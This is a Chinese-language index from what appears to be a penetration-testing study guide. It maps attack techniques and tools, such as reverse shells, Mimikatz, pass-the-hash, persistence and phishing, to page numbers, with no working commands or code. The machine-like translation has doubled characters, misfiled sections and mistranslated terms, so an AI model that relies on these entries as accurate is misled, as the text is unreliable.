- `nmap`, 146
- `OSINT`, 46
- `投毒`, 109
- `区域传输`, 75

## DNS 服务器
- `LLMNR`, 106
- `端口`, 50
- `Zenmap`, 63

- `DNSSEC`, 109

- `文档对象模型 (DOM) 跨站脚本攻击`, 117

## 文档
- `MSAs`, 220
- `渗透测试规划与范围`, 16–18
- `项目后清理阶段`, 244
- `红队评估`, 217
- `报告`, 205–207
- `交接规则`, 10


*   DOM（文档对象模型）跨站脚本攻击，117
*   域控制器
    *   端口，49
    *   `Zenmap` 实用，59, 62–63
*   DoS（拒绝服务）攻击，112
*   VLAN 跳跃中的双重标签攻击，113
*   降级攻击
    *   描述，111
    *   双生节点攻击，127
    *   HTTP，229
    *   MITM（中间人攻击），112
*   `Drozer` 工具，160
*   `dsquery user` 命令，84, 223
*   翻垃圾桶搜索
    *   访问卡，105
    *   身份凭证，46
    *   描述，104
    *   光盘，103
*   动态应用安全测试 (DAST)，157
*   动态代码分析，75

## E
*   出站传感器绕过，103
*   802.1x 认证，205
*   启发，95–96, 98
*   电子邮件
    *   业务电子邮件欺骗，98
    *   `HELO` 命令，54
    *   钓鱼攻击，11, 96
    *   端口，49
    *   简单邮件传输协议，108
*   centralops.net 网站上的电子邮件地址，53
*   centralops.net 网站上的电子邮件命名规范，54
*   电辐射
    *   网络设备，123
    *   工具，159
*   嵌入式设备，82–83
*   紧急故障打开，105
*   `Empire` 工具，155
*   员工简历，46
*   `enable secret` 命令，205
*   加密
    *   `aircrack-ng` 工具，65
    *   分段攻击，114
    *   Kerberoasting（黄金伯拉斯攻击），121
    *   `ncat`，160
    *   PCI-DSS 要求，22
    *   报告与通信，208
    *   SAN，131
    *   无线设备，159, 222
*   枚举过程
    *   信息收集，72–73
    *   `theHarvester` 工具，76
    *   详细错误消息，118
*   逃逸数据报告，201
*   `/etc/shadow` 文件，203
*   `EternalBlue` 漏洞，107
*   双生节点攻击
    *   步骤，127
    *   任务，113
*   可执行文件
    *   调试，67
    *   反编译，66–67
    *   工具，157
*   执行 BIOS，46
*   执行摘要
    *   内容，211, 242–243
    *   发现，189
    *   风险等级，208
    *   测试与结果，243
*   过期 SSL/TLS 证书，78
*   漏洞链，81
*   `Exploit-DB` 数据库，161
*   漏洞修改，81
*   漏洞持久化
    *   `chkconfig --del` 命令，234
    *   `reg save` 命令，126
    *   注册表键，131
    *   计划任务，122, 125
    *   用户账户，126
*   漏洞概述。参见攻击与漏洞
*   外部团队，26

## F
*   设施地图，17, 215
*   误报性
    *   描述，78, 86, 225
    *   指纹生物识别扫描仪，85
*   恐惧因素，100, 102
*   越越围栏，103–104
*   文件包含，118
*   文件共享，107
*   文件传输，204
*   Telnet 服务中的过滤端口状态，145
*   发现与修复
    *   机密性，24, 36
    *   报告。参见报告与通信
    *   风险容忍，242
*   `Findsecbugs` 工具，157
*   指纹扫描
    *   伪指纹，83
    *   误报，85
    *   多因素认证，199
    *   `nmap`，177, 236
*   收集档案的组织 (FOCA)，45
*   FIPS 140-2，23
*   闪存驱动器，192
*   脚本中的流量控制，169
*   FOCA (收集档案的组织)，45
*   后续行动，207
*   脚本中的 for 循环，170
*   foremost 工具，156
*   HTML 表单，130, 232
*   转发流量，236
*   分段攻击，114
*   分段数据包，148
*   设备频率，127, 222
*   `FTK` 工具，156
*   FTP
    *   端口，49, 108
    *   不安全服务，119
*   `FTPS`，204
*   `Full Disclosure`（完全披露），68
*   全盘加密，208, 247
*   全知识测试，29, 33
*   全扫描
    *   描述，224
    *   示例，70–72
    *   信息收集，86
*   模糊测试
    *   描述，75, 78
    *   工具，157

## G
*   ARP 欺骗中的网关地址，128, 228
*   `GLBA`（格雷姆-里奇-布莱法案），23, 220
*   基于目标的评估，13, 218
*   目标优先级重排序，188
*   Kerberos 中的黄金票据，155
*   政府承包商目标，7
*   格雷姆-里奇-布莱法案 (GLBA)，23, 220
*   灰盒评估
    *   示例，10–11
    *   内部攻击，218
    *   端口，49–50
    *   交互规则，33
    *   范围划分，24–25
*   `grep` 命令，148
*   组策略
    *   `cPassword` 属性，120
    *   用户账户加固，201–202
    *   报告与通信，196–199
    *   技术解决方案，194

## H
*   黑客心态，26


# 黑客行动主义攻击
- 描述，39, 220
- 示例，6–7
- 威胁风险，14

# 隐蔽扫描中的握手，71

# 硬编码密码，119

# 系统加固，201–204, 208, 246

# hashcat 工具，157

# 哈希加密的密码
- 加盐，199
- SAM 数据库，121

# 彩虹表攻击中的哈希值，87

# 美国健康保险流通与与责任法 (HIPAA)
- 描述，220
- 医疗相关合规，23

# 邮件服务器的 HELO 命令，54

# 隐藏的 HTML 元素，119

# 隐藏漏洞，126

# 高风险分类，79

# 劫持攻击
- DLL，122
- 会话，116, 135, 232

# HIPAA (美国健康保险流通与责任法案)
- 描述，220
- 医疗相关合规，23

# 历史
- bash，234
- 密码，196
- 工具，174

# history -c 命令，132

# HKEY_CURRENT_USER 键，131

# Hopper 工具，156

# VLAN 间的跳跃，113

# 用于区域传输的 host 命令，75

# host 扫描，142–144, 146, 149

# hping 工具
- 活跃连接，154, 237
- 自定义数据包，76
- 远程系统，175, 235

# HSTS (HTTP 严格传输)
- 身份认证，209, 248
- SSL 剥离，111

# HTML
- 表单，130, 232
- 隐藏元素，119

# HTTP
- 降级攻击，229
- REST 架构，19
- 服务器端口，50
- Zenmap 工具，56

# HTTP POST 方法，130, 232

# HTTP 严格传输 (HSTS)
- 身份认证，209, 248
- SSL 剥离，111

# Hydra 工具
- 暴力破解攻击，155, 172, 237
- 登录尝试，158
- 哈希传递渗透漏洞，174, 238

# Hyper-V 工具，201

# I

# ICS (工业控制系统)，82

# IDA 工具，156

# IDS (入侵检测系统)
- 发现扫描，71
- 全量扫描，70
- 隐蔽扫描，72

# if/then/else 结构，170, 240

# IMAP 邮件服务器端口，49

# Impacket 工具
- 广播消息，178, 237
- 底层网络访问，161
- 代理连接，160

# 影响分析，24

# 影响容忍
- 确定，216
- 示例，34
- 在规划和范围确定中，36

# 身份仿装
- APT，217
- 描述，132, 227
- 示例，95–97
- 响应，238
- 工具，177

# 内部开发的应用，18

# 范围参数，34
- 范围规则，8
- 范围确定，8

# 活跃用户账户，84, 223

# 不一致的设备，82

# 之前的入侵情况，186

# 工业控制系统 (ICS)，82

# 信息收集与漏洞
- 资产分类，78, 85
- 指纹识别，60–61
- 黑盒测试，44
- 暴力破解攻击，87
- 密钥，69
- CERT，45
- central.net 网站，51–54
- 合规性，72, 87
- 容器，74
- 扫描，82
- 交叉编译代码，86
- CVE 数据库，68
- CVSS，79
- 汇编译执行文件，67
- 默认密码，80
- 字典攻击，82, 85
- 发现扫描，70, 84
- DNS 服务器端口，50
- DNS 区域传输，75
- 域控制器端口，49
- 垃圾邮件挖掘，46
- 动态代码分析，75
- 电子邮件地址，53
- 邮件命名规范，54
- 邮件服务器 HELO 命令，54
- 嵌入式设备，82–83
- 遍历过程，72–73
- 高级 BIOS，46
- 过期 SSL/TLS 证书，78
- 漏洞链，81
- 误报，78, 86
- 生物识别扫描仪，83, 85
- FOCA，45
- FTP 服务器端口，49
- 全量披露，68
- 全量扫描，70–72, 86
- 模糊测试，75, 78
- 灰盒测试，49–50
- hping 工具，76
- HTTP 服务器端口，50
- IMAP 邮件服务器端口，49
- 活跃用户账户，84
- 内部网络，77
- IoT 设备，82–83
- IT 人员可用性，77


## J
* JPCERT, 67
* 实验室环境, 78
* LDAP 服务器端口, 50
* Maltego 工具, 45
* 制造设备和环境控制系统, 82
* 漏洞映射, 80
* 移动设备, 82
* nmap 实用, 45, 55, 76
* 无凭据漏洞, 70
* 非传统资产, 75
* nslookup 工具, 44, 48
* NVD, 68–69
* 旧系统, 80–81
* OSINT (开源情报), 46–47, 87–88
* 数据包捕获, 65–66
* 被动扫描, 86
* ping 扫扫描, 70
* POS 系统, 83
* 新闻稿, 46
* 漏洞优先级排序, 79
* 射频发射, 65–66
* 彩虹表, 82, 87
* recon-ng 工具, 44
* SCADA 设备, 77, 85
* 扫描调度, 73
* 扫描节流, 73–74
* 安全更新, 80
* Shodan 工具, 45
* 智能 IoT 电, 82–83
* SMB 文件服务器端口, 48
* SMTP 服务器端口, 48
* SSH 服务器端口, 50
* ssly 工具, 63
* 静态代码分析, 75, 77, 84
* 隐身扫描, 71–72, 88
* TCP 端口, 76
* Telnet 服务器端口, 49
* 测试计划, 84
* theHarvester 工具, 44, 46, 76
* 时间要求, 222
* traceroute 命令, 50–51
* 漏洞排名, 69
* Web 电视机, 75
* Web 服务器, 64, 68–69, 73, 83–84
* whois 工具, 44, 47, 77
* Zenmap 实用, 55–63
* 基础设施漏洞, 11
* 固有风险, 10
* Insane 模式, 147
* 不安全对象引用, 117
* 内部攻击
    * 描述, 31
    * 灰盒评估, 10, 218
    * 威胁风险, 14
    * 完整性, 27
* 智能驱动防御, 38
* 内部网络扫描, 74, 77
* 内部团队, 25
* 内部测试, 34
* 互联网设备
    * Censys 工具, 239
    * Shodan 工具, 239
* 物联网 (IoT) 设备, 83, 226
* 国际刑法, 16
* 审问
    * 描述, 227
    * 示例, 95
* 社会工程学, 97
* 入侵检测系统 (IDS)
    * 发现扫描, 71
    * 全扫描, 70
    * 隐身扫描, 72
* 入侵防护系统 (IPS)
    * 发现扫描, 71
    * 全扫描, 70
* 物联网 (IoT) 设备, 83, 226
* IP 地址, 黑名单, 30, 219
* IP 端口, 149
* IPS (入侵防护系统)
    * 发现扫描, 71
    * 全扫描, 70
* iptables, 203
* IPv6 主机, 106

## J
* 越狱设备, 82
* 干扰攻击, 115
* 日本，开放资源, 67
* Java 源代码, 161
* 职位招聘, 46
* John the Ripper 工具, 154, 159
* JPCERT, 67

## K
* Karma 攻击, 113
* Kerberoasting, 121, 130
* Kerberos 漏洞
    * 描述, 116
    * 黄金票据, 155
* 内内核漏洞, 122
* 密钥管理系统, 34
* 键盘记录器, 135, 233
* Kismet 工具, 159

## L
* 实验室环境, 78
* LAPS (本地管理员密码), 196, 211, 246
* 法律规则, 8
* LDAP
    * 端口, 50
    * 启用 SSL, 121
    * 经验总结, 210, 244
* 本地因素, 100, 102
* 链路本地多播名称解析 (LLMNR)
    * 特性, 106
    * 凭据查询, 133, 228
    * 安全风险, 107
* 监听器, `netcat`, 236
* LAPS (本地管理员密码), 196, 211, 246
* 本地文件包含, 118
* 本地安全权威子系统 (LSASS), 121
* 渗透测试中的位置, 25
* 锁绕过
    * 描述, 103, 105
    * 门门工具, 130, 234
* 锁锁
    * 描述, 103
    * 工具, 105
* 账户锁定, 197–198
* 多因素身份验证登录, 247
* 日志
    * 专用服务器, 204
    * 目录遍历, 132
    * 最终结论, 13
    * 隐藏漏洞, 126
    * 符号, 158
* 低漏洞类别, 79
* LSASS (本地安全权威子系统), 121


*   Maltego 工具, 45, 172
*   中间人攻击 (MITM attacks)
    *   ARP 欺骗, 110
    *   攻击与利用, 129
    *   描述, 132, 228
    *   重放攻击, 110
*   防步门, 133, 234
*   制造设备与环境系统, 82
*   漏洞映射, 80–81
*   主服务协议 (MSAs), 12, 30, 39, 220
*   中等漏洞类别, 79
*   Medusa 工具, 155, 158
*   Metasploit Framework
    *   描述, 161
    *   `msfconsole` 命令, 173, 237
    *   `use auxiliary` 命令, 177
*   报告中的方法论部分, 183, 189
*   报告中的指标和措施, 190
*   报告中的迁移策略, 208
*   Mimikatz 工具
    *   Kerberos 金金票据 (golden tickets), 155
    *   哈希传递攻击 (pass-the-hash attacks), 173, 238
    *   钓鱼, 127
*   用于数据包捕的镜像端口, 66
*   缓解, 21
*   MITM 攻击。参见中间人攻击 (man-in-the-middle (MITM) attacks)
*   移动设备
    *   工具, 160–161
    *   弱点, 82
    *   `Zenmap` 实用程序, 58
*   射电发射监测模式, 65
*   MSAs (主服务协议), 12, 30, 39, 220
*   `msfconsole` 命令, 173, 237
*   MTAs (邮件传输代理), 108
*   多因素身份认证
    *   示例, 245
    *   登录, 247
    *   建议, 208–212
    *   类型, 199–201
*   跨国银行目标, 7
*   NAC。参见网络访问控制 (NAC)
*   国家级威胁
    *   描述, 31, 217
    *   示例, 6–7
    *   威胁风险, 14
*   国家漏洞数据库 (NVD)
    *   描述, 222
    *   漏洞识别, 68–69
    *   漏洞, 69
*   `NBTSTAT` 命令
    *   服务器, 106
    *   工作站, 106
*   `nc` 命令, 177
*   `ncat` 工具
    *   绑定 shell 利用, 239
    *   加密, 160
    *   shell 会话, 156
*   NDAs (保密协议)
    *   描述, 12
    *   目的, 29, 39
*   Nessus 工具, 87, 154, 221
*   NetBIOS 服务, 172, 236
*   `netcat` 工具
    *   绑定 shell 利用, 239
    *   监听器, 175, 236
    *   反向 shell 利用, 160, 239
*   `netstat` 工具, 203
*   网络访问测试, 34
*   网络访问控制 (NAC)
    *   攻击与利用, 112–13
    *   证书锁定, 33
    *   描述, 20
    *   隔离笔记本笔记本, 30
*   网络图
    *   资产子网, 223
    *   服务器访问, 17, 215
*   网络加固, 202
*   网络打印机, 61
*   `Nikto` 工具, 155–157
*   `nmap` 实用程序
    *   活动连接, 237
    *   示例, 142–154
    *   内部服务器, 74
    *   大型子网, 76
    *   操作系统, 55, 76
    *   操作系统指纹识别, 177, 236
    *   端口, 175
    *   远程系统, 178
    *   扫描限流, 74
    *   T1 线路, 74
    *   TCP 端口, 178, 235
    *   Telnet, 235
    *   Web 服务器, 45
*   非竞争协议, 12
*   无凭证漏洞, 70
*   保密协议 (NDAs)
    *   描述, 12
    *   目的, 29, 39
*   非传统资产, 75
*   数据归一化, 183, 188
*   `nslookup` 工具
    *   IP 地址, 44
    *   OS, 48
    *   侦察, 154
*   NTLM v2 哈希, 173
*   空会话, 133
*   NVD (漏洞数据库)
    *   描述, 222
    *   漏洞识别, 68–69
    *   漏洞排名, 69
## O
*   离职流程, 193
*   限制系统, 25
*   Telnet 服务开放状态, 145
*   开放端口, 106
*   开源情报 (OSINT)
    *   描述, 87, 220
    *   信息收集, 46–47
    *   组织, 88
    *   执行, 127
    *   SET 和 Shodan, 237
    *   工具, 172
*   操作系统
    *   确定, 142
    *   内核利用, 122
    *   端口, 76
    *   版本, 55
*   有组织犯罪者
    *   示例, 6–7
    *   资源和专业知识, 31
    *   威胁风险, 14
*   操作系统指纹识别, 177, 236
*   OSINT。参见开源情报 (OSINT)
*   范围外系统, 8
*   外部攻击, 10
*   OWASP ZAP 工具, 154, 160


* 被动式侦察, 175, 236
* 被动式扫描, 86, 220
* `passwd` 命令, 203
* 密码
    * 暴力破解攻击, 82
    * CeWL, 158
    * 公司政策, 36, 217
    * `cPassword` 属性, 120
    * 默认, 80
    * 字典攻击, 82, 85
    * 组策略, 11
    * 用户账户加固, 202
    * hashcat, 157
    * 哈希过的, 121
    * LAPS, 211, 246–247
    * 多因素身份认证, 200
    * PCI-DSS 要求, 22–23
    * 彩虹表攻击, 82, 87, 226
    * 报告, 196–199, 204–205, 208
    * responder, 161
    * SCADA 设备, 85, 227
    * 强密码, 85, 226, 247
    * 工具, 154–155
    * VPNs, 209
    * Zenmap 工具, 57
* Patator 工具, 155
* 支付卡行业数据安全标准 (PCI-DSS)
    * 合规性性漏洞, 32, 72, 74
    * 渗透测试规划, 22–23
    * 测试频率, 28
    * Peach 工具, 157
* 渗透测试规划
    * 攻击者, 14
    * 协议, 32
    * 篡改, 27
    * API 文档, 17
    * APT (高级持续性威胁), 30, 37
    * 授权, 34, 39
    * 可用性问题, 27
    * 黑盒测试, 4, 10, 20, 24, 33, 35
    * 黑名单 IP 地址, 30
    * 预算, 36
    * 证书固定化, 20, 38
    * 公司政策, 36
    * 基于合规性的评估, 4, 14
    * 机密性, 24, 27, 36
    * 加密模块, 23
    * 网络攻击杀链模型 (Cyber Kill model), 38
    * 拒绝服务, 27–28
    * 信息泄露, 27–28
    * 外部团队, 26
    * 设施布局图, 17
    * 首项任务, 4
    * 基于目标的评估, 13
    * 政府承包商目标, 7
    * 灰盒测试, 4–5, 10, 24–25, 33
    * 黑客思维, 26
    * 黑客主义者攻击, 6–7, 39
    * 医疗相关机构, 23
    * 影响分析, 24
    * 影响容忍, 34, 36
    * 内部开发应用, 18
    * 范围内参数, 13
    * 内部攻击, 31
    * 完整性, 27
    * 内部团队, 25–27
    * 内部测试, 34
    * 国际刑警组织规定, 16
    * 日志文件, 13
    * 恶意内部攻击者, 6
    * 缓解, 21
    * 主服务协议 (MSAs), 12, 30, 39
    * 跨银行目标, 7
    * 网络访问控制 (NAC), 20, 30, 33
    * 国家级威胁, 6–7, 31
    * 保密协议 (NDAs), 12, 29, 39
    * 网络拓扑, 17
    * 限制系统, 25
    * 有组织化犯罪者, 6–7, 31
    * 密码, 36
    * PCI-DSS 标准, 22–23, 28, 32
    * 绩效说明, 13
    * 个人信息, 23
    * 合并评估, 14
    * 上市公司, 23
    * 订单, 12
    * 红队团队, 4, 14, 31, 38
    * 修复, 25
    * 报告描述, 25
    * 报告项, 37
    * REST 架构, 19
    * 风险接受, 15, 21
    * 风险规避, 20
    * 风险讨论, 29
    * 风险转移, 21
    * 介入规则, 8–11, 32, 35
    * 示例应用, 18
    * 范围蔓延, 15, 32, 37
    * 范围定义, 7
    * 在范围内, 34
    * 范围界定, 36
    * 脚本小子 (Script kiddies), 6–7, 29, 32
    * SDK 文档, 17
    * 服务标识符, 39
    * 签署机构, 33
    * SOAP, 17–18, 35
    * SSIDs, 31
    * 目标说明, 13
    * 工作说明书, 12, 29, 36
    * 供应链评估, 14
    * Swagger 框架, 18, 37
    * 威胁建模, 15
    * 传输, 15–16
    * 白盒测试, 4–5, 7, 11, 17, 19, 29, 33
    * 白名单, 35
    * 书面授权, 11
    * WSDL, 16, 19
    * XSD, 19
* 人性缓解, 193–195
* 绩效说明书 (PWSs), 13
* 权限
    * 权限提升, 120
    * 介入规则, 8, 10


* 安全，214–215
* 不安全，122
* 持久化。*参见* 漏洞持久化
* 个人信息，23
* 钓鱼攻击
    * 攻击与利用，127
    * 权威诉求，233
    * 描述，94, 96
    * 邮件利用，11
    * `theHarvester` 工具，76
* 物理访问，PCI-DSS 节点，22
* 尾随 (piggybacking)
    * 描述，102, 104
    * 步入通道，133, 234
* 多因素身份验证中的 PIN，199–200, 210–211, 245
* Ping 扫描，70
* 销售点 (POS) 系统，83
* 计时选项中的礼貌模式，148
* 政治原因，7, 15
* 端口
    * 关闭，202
    * DNS 服务器，50
    * 域控制器，49
    * FTP 服务器，49, 108
    * HTTP 服务器，50
    * IMAP 邮件服务器，49
    * LDAP 服务器，50
    * 镜像，66
    * `nmap`，144–146, 175, 235
    * 开放，106
    * 报告，208
    * SMB 文件服务器，48
    * SMB 协议，107
    * SMTP 服务器，48
    * SNMP 协议，107
    * SSH 服务器，50
    * TCP，76, 175, 178, 235
    * Telnet 服务器，49, 224
    * TFTP 服务器，49
    * Web 服务器，224
    * POS (销售点) 系统，83
    * POs (采购订单)，12
    * 交付后清理过程，206, 211, 244
    * `PowerShell` 脚本，162–167, 169
    * 数组，177, 241
    * 远程脚本，174–175, 241
    * 变量，170
    * `PowerSploit` 工具，155
    * 攻击前评估，14
    * 预执行环境 (PXE)，121
    * 新闻发布，46
    * 打印机
        * 共享，107
        * `Zenmap` 工具，61
    * 未经授权访问，207, 248
    * 优先处理漏洞，79
    * 权限提升攻击
        * 权限，120
        * 攻击规则，10
        * 未加引号的服务路径，134, 233
    * 进程解决方案，193–195
    * 用于数据包捕获的混杂模式，66
    * 代理服务器，149
    * `proxychains` 工具，157
    * `PsExec` 工具
        * 连接，131
        * 控制台访问，124, 234
    * 上市公司，23
    * 采购订单 (POs)，12
    * PWSs (性能工作说明)，13
    * PXE (预执行环境)，121
    * `Python` 类，测试工具，161
    * `Python` 脚本，162, 164–167
        * if/then/else 结构，178, 240
        * 变量，171

## R
* 竞态条件，135, 232
* 射频发射，65–66
* 彩虹表攻击
    * 对比破解攻击，87, 226
    * 密码，82, 198, 226
    * 随机主机扫描，149
    * `rcp` 工具，205
    * RDP，124
    * 只读账户，84, 223
    * 实时操作系统 (RTOS)，227
* 建议。*参见* 报告与通信
* `recon-ng` 工具，44, 48
* 侦察
    * 攻击链模型，38
    * `nmap`，154
    * Shodan，175
* 红队评估
    * 描述，4
    * 内部测试，14
    * 特定漏洞，31
* 还原
    * 客户端请求，240
    * 钓鱼邮件，116
    * URL，209, 247
* rel，17
* `reg add` 命令，127
* `reg save` 命令，126
* 持久化中的 `registry` 键，131
* 继继攻击，165–167
* 中继攻击，110
* 修复时间线，25
* 远程代码，123
* 远程文件，118
* 远程服务器访问，204
* 远程系统
    * 描述，124
    * `hping` 工具，175, 235
    * `nmap`，178
    * `PowerShell` 脚本，241
    * `WMI`，235
* 重复攻击，15


- 系统加固，201–204, 208
- 立即报告，37
- 先先受入侵的指标，186–188
- 经验教训，210, 244
- 方法论部分，183, 189
- 指标与衡量标准，190
- 迁移策略，208
- 数据规范化，183, 188
- 密码，196–198, 211
- 基于人的缓解措施，193–195
- 端口，208
- 交互后清理流程，206, 211
- 流程解决方案，193–195
- 需求建议书，210
- 风险容忍度，209
- 态势感知，183–185
- SQL 注入攻击，200–201
- 阶段，186–187, 249
- 存储需求，191–192
- 系统可用性问题，248
- 技术性解决方案，193–195, 211, 245
- 测试规划，25
- 受信任的代理，185
- 不必要的服务，211
- URL 重定向，209
- 用户账户，201
- 供应商代表，205
- VPNs，209
- 漏洞优先级，207
- 无线设备，205
- 表述性状态转移 (`REST`) 架构，19
- 需求建议书 (`RFPs`)，210, 245
- 设置后重置账户计数器，197
- 重置包，145
- 响应者 (responder)
    - 客户端重定向，240
    - 冒装，238
    - `NetBIOS` 名称服务，172, 236
    - 请求重定向，161
    - 资源冒装，177
- `REST` (`Representational State Transfer`) 架构，19
- 参与约规则中的结果通信，8
- 简历，46
- Ret2libc 权限，120
- 视网膜扫描，199
- 逆编译工具，156
- 反向 Shell 漏洞
    - `bash` 脚本，173, 242
    - `netcat`，160, 239
    - RFID 克隆，114–115
    - RFID 近距离读器，200
- `RFPs` (`requests for proposal`)，210, 245
- RID 循环
    - 描述，230
    - 空会话，133
- 风险接受，15, 21, 218
- 风险规避，20, 218
- 风险讨论，29
- 执行摘要中的风险等级，243
- `CVSS` 中的风险评分，225, 242
- 风险容忍度
    - 发现与修复，242
    - 报告与沟通，209
- 风险转移，21
- `ROE` (rules of engagement)
    - 条目，214
    - 测试规划与范围划分，8–11, 32, 35
    - 白盒评估，214
- 程序执行的 root，120
- 移动设备 root，82
- 路由器配置，34
- `RPC/DCOM`，123
- `RST` 包，71
- `RTOS` (实时操作系统)，227
- `Ruby` 脚本，162, 165–168, 171
- 参与约规则 (`ROE`)
    - 条目，214
    - 测试规划与范围划分，8–11, 32, 35
    - 白盒评估，214
- S
    - `SaaS` 服务供应商，34
    - 密码加盐，199
    - `SAM` 数据库，121
    - 示例请求，18
    - 用于站点验证的 `SAN` (Subject Alternative Name)，131
    - 沙箱漏洞，123
    - 用户输入清洗，201
    - `Sarbanes-Oxley` 法案 (`SARBOX`)，23
    - `SAST` (静态应用安全测试) 工具，157
- `SCADA` 设备。参见监视控制与数据采集 (`SCADA`)
- 稀缺因素，99, 101
- 时间表
    - 漏洞持久化，122, 125
    - 测试时间，73, 84, 223
- 范围
    - 定义，7
    - 资源，215
- 范围扩大，15, 32, 37–38, 219
- 范围划分。参见测试范围划分
- `scp` 命令，204
- 脚本小子
    - 描述，6
    - 专业知识，32
    - 威胁风险，14, 29
- 脚本
    - `if/then/else` 结构，240
    - 概述，162–172, 176–178
    - 故障排除，240–241
- `SDK` (软件开发包) 文档，17
- Searchsploit 工具，161
- 安全 Shell (`SSH`)
    - 203
    - 端口，50
    - 远程服务器访问，204
    - 远程系统管理，124
    - 流量转发，176, 236
- 安全意识训练，209, 247


- 卸载, 201
- 版本号, 145
- SERVICES 共享, 131
- 会话劫持攻击
    - cookies, 135, 232
    - 描述, 116
- SET (社会工程工具包), 156
    - OSINT (开源情报调查), 237
    - 针对性网络钓鱼攻击, 133, 228
- SGID 特殊权限, 120
- 共享文件, 107
- 移除 shell 会话, 206
- shell 升级
    - 示例, 133, 233
    - 沙箱逃逸漏洞, 123
- Shodan 工具
    - 互联网设备, 178, 239
    - 物联网设备, 45
    - OSINT (开源情报调查), 172, 237
    - 被动侦察, 175, 236
- 窥视偷, 96, 98
- 粉碎器, 192–193
-  {战规则中的签名, 10
- 签名机构, 33
- 简单邮件传输协议 (SMTP)
    - 攻击与利用, 108
    - 中继, 108
    - 服务器端口, 48
- 简单对象访问协议 (SOAP)
    - 文档, 17–18
    - 消息协议, 215
    - 项目文件, 35
- 站点验证，针对 SAN, 131
- 态势感知, 183–185
- 智能卡, 210–211, 245
- 智能物联网电器, 82–83
- 物理破坏 U 盘, 192
- SMB (服务器消息块)
    - 服务器端口, 48
    - 功能, 107
    - 弱点, 107
- 短信钓鱼攻击, 94
- SMS 钓鱼攻击, 97
- SMTP (简单邮件传输协议)
    - 攻击与利用, 108
    - 中继, 108
    - 服务器端口, 48
- 嗅探器, 108
- SNMP 协议
    - 攻击与利用, 107
    - SCADA 设备, 85, 227
- SOAP (简单对象访问协议)
    - 文档, 17–18
    - 消息协议, 215
    - 项目文件, 35
- 社会工程工具包 (SET), 156
    - OSINT (开源情报调查), 237
    - 针对性网络钓鱼攻击, 133, 228
- 社会工程学
    - 权威诉求, 128, 130, 227
    - 冒充, 227
    - 审问, 95, 97, 227
    - 钓鱼攻击, 233
    - SET, 156
    - 尾随进入, 81
    - 社交媒体帖子, 46
    - 社会证明因子, 99, 101
- 软件开发包 (SDK) 文档, 17
- 你已身份验证, 199
- 你拥有凭证验证, 211–212, 246
- 你已知身份验证, 199
- 你在某处身份验证, 199–200
- SOOs (目标声明), 13
- SOWs (工作任务书)
    - 内容, 29
    - 描述, 12
    - 目标列表, 36, 216
- 针对性网络钓鱼攻击
    - 凭证扫描, 73
    - 描述, 94
    - 示例, 127
    - 侦察, 97
    - SET, 133, 228
- 伪造的 IP 地址, 149
- SQL 注入攻击
    - 描述, 115
    - 报告, 200–201
    - 风险最小化, 132, 230
    - 系统加固, 246
- Sqlmap 工具
    - 暴力破解攻击, 154
    - 数据库服务器, 179, 239
- SSH, 查看 `SSH`
- SSHv1, 119
- SSIDs, 查看服务标识符 (SSIDs)
- 启用 SSL 的 LDAP, 121
- SSL 攻击
    - 描述, 111
    - 降级, 111
- SSL/TLS 过期证书, 78
- sslyze 工具, 63
- 阶段通信触发, 186–187, 249
- 目标声明 (SOOs), 13
- 工作任务书 (SOWs)
    - 内容, 29
    - 描述, 12
    - 目标列表, 36, 216
- 静态应用安全测试 (SAST) 工具, 157
- 静态代码分析
    - 描述, 223
    - 源代码, 75, 77
    - Web 应用, 84
- 隐隐扫描
    - 描述, 88, 224
    - SYN 包, 71
    - 三次握手, 71
- 粘性位, 120
- 内部测试的存储, 34
- 报告中的存储, 191–192
- 使用可逆加密存储密码, 198
- 存储型跨站脚本 (XSS)
    - 描述, 128
    - 优先级, 232
- 存储型/持久性攻击, 117
- 强密码, 85, 226, 247
- 站点验证，针对 SAN, 131
- sudo 程序, 120
- SUID 特殊权限, 120
- 控制与数据采集 (SCADA) 设备
    - 暴力破解攻击, 85
    - 破坏潜力, 77
    - 制造设备和环境系统, 82
    - 密码, 227
    - 白名单设备, 113
- 供应链评估, 14
- Swagger 框架
    - API 测试, 37, 215
    - REST Web 服务, 18


*   系统加固，201–204, 208, 246

## T

*   T1 行，74
*   `tail` 命令，172
*   尾随攻击 (tailgating)，81, 102, 104
*   SOW 中的目标列表，36, 216
*   目标组织，授权情况，34
*   任务计划程序 (Task Scheduler)，125
*   TCP ACK 扫描，143–144
*   TCP 连接扫描，143
*   TCP 端口
    *   `hping`，175
    *   `nmap`，178, 235
    *   操作系统，76
*   TCP SYN 洪水攻击，128, 232
*   TCP 三次握手，71
*   `tcpdump` 实用，65
*   团队 (teams)，25–27
*   技术解决方案，193–195, 211, 245
*   Telnet 服务
    *   Banner 提取 (banner grabbing)，60–61
    *   `nmap` 实用，235
    *   端口，49, 224
    *   SMTP，108
    *   不安全服务，119
*   开锁用的张力扳 (tension wrenches)，105
*   测试人员创建的凭据，删除，206
*   测试计划，73, 84, 223
*   TFTP 服务器端口，49
*   theHarvester 工具
    *   身份凭据，46
    *   电子邮件地址，76
    *   IP 地址，44
*   威胁建模，15
*   三因子认证 (3FA)，200
*   三次握手，71
*   扫描限速 (throttling scans)，73–74
*   检查时间到使用时间 (TOCTTOU)，135, 232
*   交战规则中的时间线，8
*   `nmap` 中的计时选项，147–148
*   TLSv1_1，64
*   TLSv1_2，64
*   TOCTTOU (检查时间到使用时间),135, 232
*   工具概述
    *   AFL，157
    *   Aircrack-ng，155
    *   APK Studio，157, 161
    *   APKX，157, 161
    *   BeEF，156, 174
    *   Cain and Abel，154
    *   Censys，179
    *   CeWL，158, 174
    *   Dirbuster，158
    *   Drozer，160
    *   Empire，155
    *   Findsecbugs，157
    *   foremost，156
    *   FTK，156
    *   hashcat，157
    *   Hopper，156
    *   `hping`，154, 175
    *   Hydra，155, 158, 172, 174
    *   IDA，156
    *   Impacket，160, 161
    *   John the Ripper，154, 159
    *   Kismet，159
    *   Maltego，172
    *   Medusa，155, 158
    *   Metasploit，161, 173, 177
    *   Mimikatz，155, 173
    *   `ncat`，156, 160
    *   Nessus，154
    *   `netcat`，158, 160, 175
    *   Nikto，155–157
    *   `nmap`，142–154, 175, 178
    *   `nslookup`，154
    *   OWASP ZAP，154, 160
    *   Patator，155
    *   Peach，157
    *   PowerShell，174–175
    *   PowerSploit，155
    *   proxychains，157
    *   Responder，161, 177
    *   scripts，162–172, 176
    *   Searchsploit，161
    *   Secure Shell，176
    *   SET，156
    *   Shodan，172, 175, 178
    *   SQLmap，154
    *   Sqlmap，179
    *   `Telnet` 服务，145
    *   W3AF，155
    *   `whois`，154, 159
